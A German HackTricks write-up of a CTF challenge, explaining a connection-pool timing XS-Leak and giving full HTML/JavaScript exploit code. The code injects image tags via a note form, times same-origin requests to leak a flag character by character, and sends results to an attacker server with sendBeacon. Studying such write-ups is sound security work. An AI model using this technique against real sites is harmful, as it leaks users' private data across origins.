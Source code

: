 # Beispiel für Verbindungspool nach Ziel

<details>

<summary><strong>Lernen Sie das Hacken von AWS von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Arbeiten Sie in einem **Cybersicherheitsunternehmen**? Möchten Sie Ihr **Unternehmen in HackTricks bewerben**? Oder möchten Sie Zugriff auf die **neueste Version von PEASS erhalten oder HackTricks als PDF herunterladen**? Überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* **Treten Sie der** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegramm-Gruppe**](https://t.me/peass) bei oder **folgen** Sie mir auf **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an das [hacktricks repo](https://github.com/carlospolop/hacktricks) und das [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)** senden.

</details>

In [**diesem Exploit**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-safelist-html) schlägt [**@terjanq**](https://twitter.com/terjanq) eine weitere Lösung für die auf der folgenden Seite erwähnte Herausforderung vor:

{% content-ref url="connection-pool-by-destination-example.md" %}
[connection-pool-by-destination-example.md](connection-pool-by-destination-example.md)
{% endcontent-ref %}

Schauen wir uns an, wie dieser Exploit funktioniert:

* Der Angreifer fügt eine Notiz mit so vielen **`<img`**-Tags hinzu, die **`/js/purify.js`** laden, wie möglich (mehr als 6, um den Ursprung zu blockieren).
* Dann wird der Angreifer die **Notiz** mit Index 1 **entfernen**.
* Anschließend wird der Angreifer [**den Bot dazu bringen, die Seite zu laden**] und eine Anfrage an **`victim.com/js/purify.js`** senden, die er **zeitlich** messen wird.&#x20;
* Wenn die Zeit **länger** ist, befand sich die **Injektion** in der **verbleibenden Notiz**, wenn die Zeit **kürzer** ist, befand sich die **Flagge** darin.

{% hint style="info" %}
Um ehrlich zu sein, beim Lesen des Skripts habe ich einen Teil vermisst, in dem der **Angreifer den Bot dazu bringt, die Seite zu laden, um die img-Tags auszulösen**, ich sehe nichts Derartiges im Code.
{% endhint %}
```html
<html>
<head>
<script>
const SITE_URL = 'https://safelist.ctf.sekai.team/';
const PING_URL = 'https://myserver';
function timeScript(){
return new Promise(resolve => {
var x = document.createElement('script');
x.src = 'https://safelist.ctf.sekai.team/js/purify.js?' + Math.random();
var start = Date.now();
x.onerror = () => {
console.log(`Time: ${Date.now() - start}`); //Time request
resolve(Date.now() - start);
x.remove();
}
document.body.appendChild(x);
});
}

add_note = async (note) => {
let x = document.createElement('form')
x.action = SITE_URL + "create"
x.method = "POST"
x.target = "xxx"

let i = document.createElement("input");
i.type = "text"
i.name = "text"
i.value = note
x.appendChild(i)
document.body.appendChild(x)
x.submit()
}

remove_note = async (note_id) => {
let x = document.createElement('form')
x.action = SITE_URL+"remove"
x.method = "POST"
x.target = "_blank"

let i = document.createElement("input");
i.type = "text"
i.name = "index"
i.value = note_id
x.appendChild(i)
document.body.appendChild(x)
x.submit()
}

const sleep = ms => new Promise(resolve => setTimeout(resolve, ms));
// }zyxwvutsrqponmlkjihgfedcba_
const alphabet = 'zyxwvutsrqponmlkjihgfedcba_'
var prefix = 'SEKAI{xsleakyay';
const TIMEOUT = 500;
async function checkLetter(letter){
// Chrome puts a limit of 6 concurrent request to the same origin. We are creating a lot of images pointing to purify.js
// Depending whether we found flag's letter it will either load the images or not.
// With timing, we can detect whether Chrome is processing purify.js or not from our site and hence leak the flag char by char.
const payload = `${prefix}${letter}` + Array.from(Array(78)).map((e,i)=>`<img/src=/js/purify.js?${i}>`).join('');
await add_note(payload);
await sleep(TIMEOUT);
await timeScript();
await remove_note(1); //Now, only the note with the flag or with the injection existsh
await sleep(TIMEOUT);
const time = await timeScript(); //Find out how much a request to the same origin takes
navigator.sendBeacon(PING_URL, [letter,time]);
if(time>100){
return 1;
}
return 0;
}
window.onload = async () => {
navigator.sendBeacon(PING_URL, 'start');
// doesnt work because we are removing flag after success.
// while(1){
for(const letter of alphabet){
if(await checkLetter(letter)){
prefix += letter;
navigator.sendBeacon(PING_URL, prefix);
break;
}
}
// }
};
</script>
</head>
<body>
</body>
</html>

```
<details>

<summary><strong>Lernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Arbeiten Sie in einem **Cybersicherheitsunternehmen**? Möchten Sie Ihr **Unternehmen in HackTricks bewerben**? Oder möchten Sie Zugriff auf die **neueste Version von PEASS oder HackTricks als PDF herunterladen**? Überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family).
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com).
* **Treten Sie der** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie mir auf **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an das [hacktricks repo](https://github.com/carlospolop/hacktricks) und das [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)** einreichen.

</details>
